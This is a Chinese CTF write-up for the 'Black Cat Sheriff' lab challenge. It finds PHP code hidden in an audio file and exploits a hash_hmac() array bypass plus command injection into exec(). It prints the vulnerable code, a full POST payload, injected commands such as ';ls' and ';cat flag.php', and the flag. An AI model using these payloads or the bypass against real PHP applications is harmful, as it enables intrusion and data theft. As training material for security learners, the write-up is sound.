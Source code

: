 ```yaml
---
layout: post
title:  "[黑猫警长]解题笔记"
date:   2020-12-25 20:00:00 +0800
categories: 实验室日题
---
```


### 考察点

- 文件隐写
- `hash_hmac()` 函数漏洞，数组绕过

### 分析

网站中只有一个黑猫警长的~~性感~~写真和一个播放器，简单查看一下源代码发现一行注释：

```HTML
</header>
<!--都说听听歌了！-->
谁！竟敢踩我一只耳的尾巴！
```

那就下载歌曲下来看看里面有什么吧..

下载完用Winhex打开分析一下，文件的尾部发现了PHP的代码。

![image-20201226002627208](..\images\image-20201226002627208.png)

把代码提取出来分析：

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('谁！竟敢踩我一只耳的尾巴！');
}
$clandestine = getenv("clandestine");
// 获取环境变量clandestine
if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);
// 生成带有密钥的哈希
// hash_hmac ( string $algo , string $data , string $key [, bool $raw_output = false ] ) : string
// algo 	  哈希算法名称 
// data 	  要进行哈希运算的消息
// key  	  使用 HMAC 生成信息摘要时所使用的密钥
// raw_output 设置为 true 输出原始二进制数据， 设置为 false 输出小写 16 进制字符串
$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);
if($hh !== $_POST['Black-Cat-Sheriff']){
    die('有意瞄准，无意击发，你的梦想就是你要瞄准的目标。相信自己，你就是那颗射中靶心的子弹。');
}
echo exec("nc".$_POST['One-ear']);
```

大概就是要想办法求出`clandestine`的值，让传入的Black-Cat-Sheriff与加密后的One-ear相同，从而执行下面的命令。然后nc弹shell拿flag。但是想了半天不知道该怎么办，于是从网上寻找方法~~(找师傅们的wp)~~。然后发现一个神奇的数组，当在`$data`处传进去数组的时候，`clandestine`即密钥会被置为NULL，这样便绕过了加密。

![image-20201226122224809](..\images\image-20201226122224809.png)

剩下的就是命令构造，命令执行，可以用`;`截断它的命令

![image-20201226122112759](..\images\image-20201226122112759.png)

```php
string(64) "67f5ea2e063353fe3a219e35fa13c15cbf73df6fc6cb89fa0c2eecb50a7d027e"
```

这样就可以拼出payload

```
Black-CatSheriff=67f5ea2e063353fe3a219e35fa13c15cbf73df6fc6cb89fa0c2eecb50a7d027e&One-ear=;ls&White-cat-monitor[]=0
```

![image-20201226123653335](..\images\image-20201226123653335.png)

命令执行了，但是没有发现flag在哪里。八嘎！

后来看了[wkr](https://www.wkr.moe/)的[wp](https://www.wkr.moe/ctf/dayattack/424.htm)，然后自己测试了一下，发现`echo exec(ls);`只返回一个值，所以这里只有一个`vendor`，应该把语句换成``;echo `ls` `` 这样就能显示出目录了。

![image-20201226130100978](..\images\image-20201226130100978.png)

命令换成`;cat flag.php` flag到手

**flag:GWHT{y0u_mu3t_p@y_atTentiou_!0_lt}**

